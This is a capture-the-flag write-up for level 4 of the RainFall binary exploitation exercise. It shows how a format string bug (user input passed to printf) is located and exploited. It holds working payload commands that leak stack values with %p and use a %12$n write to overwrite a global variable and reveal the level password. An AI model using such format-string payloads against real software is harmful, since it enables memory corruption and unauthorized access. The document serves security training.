

**LEVEL 4**

this level is pretty similar to the last one.



as we can see, the binary call fgets() and call p which is a wrapper for printf().

after that we have a if statement checking if m is equals to 16,930,116. If so, the binary will cat the pass.

so as in the last level we need to write in m a value. The difference there is that it will not possible to write so many chars within the buffer. But with the format specifier %[nbr]d we can bypass this problem. 

the last unknown is the value of the positional specifier that allows us to write/read at the beginning of the fstring.

```bash
level4@RainFall:~$ python -c 'print("aaa bbb ccc " + " ".join("{}: %p".format(i) for i in range(1,20)))' > /tmp/payload4
level4@RainFall:~$ cat /tmp/payload4 | ./level4
aaa bbb ccc 1: 0xb7ff26b0 2: 0xbffff794 3: 0xb7fd0ff4 4: (nil) 5: (nil) 6: 0xbffff758 7: 0x804848d 8: 0xbffff550 9: 0x200 10: 0xb7fd1ac0 11: 0xb7ff37d0 12: 0x20616161 13: 0x20626262 14: 0x20636363
```

As we can see above, it will be a value of 12, which gives us:

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/payload4
level4@RainFall:~$ cat /tmp/payload4 | ./level4
[...] -1208015184
[pass]